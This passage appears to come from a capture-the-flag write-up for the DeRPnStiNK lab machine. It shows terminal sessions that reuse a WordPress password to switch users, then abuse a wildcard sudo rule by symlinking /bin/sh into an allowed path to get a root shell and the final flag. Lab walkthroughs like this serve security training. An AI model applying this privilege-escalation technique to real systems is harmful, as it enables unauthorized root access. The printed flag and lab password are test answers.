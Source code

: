 Hopefully, mrderp used the Wordpress password for his machine's account, too. Let's try:

```
stinky@DeRPnStiNK:~$ su mrderp
su mrderp
Password: derpderpderpderpderpderpderp

mrderp@DeRPnStiNK:/home/stinky$ 

```

We are now logged in as mrderp! Unfortunately, however, mrderp can not log in as root. The */support/troubleshooting.txt* file, however, gives us a hint of a misconfiguration that we can use to get root access: looks like mrderp asked the hosting company's helpdesk to allow him to run sudo commands in a specific folder according to the following rule


```
mrderp ALL=(ALL) /home/mrderp/binaries/derpy*

```

Let's try to exploit this issue

```
mrderp@DeRPnStiNK:/support$ mkdir /home/mrderp/binaries  
mkdir /home/mrderp/binaries
mrderp@DeRPnStiNK:/support$ cd /home/mrderp/binaries
cd /home/mrderp/binaries
mrderp@DeRPnStiNK:~/binaries$ ln -s /bin/sh derpy-attack
ln -s /bin/sh derpy-attack
mrderp@DeRPnStiNK:~/binaries$ sudo ./derpy-attack
sudo ./derpy-attack
[sudo] password for mrderp: derpderpderpderpderpderpderp
# whoami
whoami
root
# 

```

Win!

The last flag [](#flag4)**flag4(49dca65f362fee401292ed7ada96f96295eab1e589c52e4e66bf4aedda715fdd)** is located in /root/Desktop/flag.txt


